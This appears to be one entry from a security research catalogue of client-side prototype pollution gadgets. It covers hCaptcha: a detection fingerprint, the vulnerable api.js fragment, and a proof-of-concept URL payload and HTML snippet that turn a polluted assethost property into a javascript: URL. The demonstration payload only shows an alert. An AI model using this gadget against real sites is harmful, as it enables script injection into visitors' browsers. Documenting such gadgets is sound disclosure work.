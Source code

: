 ## hCaptcha

### URL

https://docs.hcaptcha.com/

### JS Fingerprint

```js
typeof hcaptcha !== 'undefined'
```

### Vulnerable code fragment

https://hcaptcha.com/1/api.js

```js
ae.assethost && (n = ae.assethost + re.assetUrl.replace(re.assetDomain, "")),
this.$iframe.dom.src = n + "/hcaptcha-challenge.html#id=" + this.id + "&host=" + this._host + (t ? "&" + Rt(this.config) : ""),
```

### PoC

```
?__proto__[assethost]=javascript:alert(1)//
```

```html
<script src="https://hcaptcha.com/1/api.js" async defer></script>
<script>
  Object.prototype.assethost="javascript:alert(1)//"
</script>
<div class="h-captcha" data-sitekey="your-site-key"></div>
```
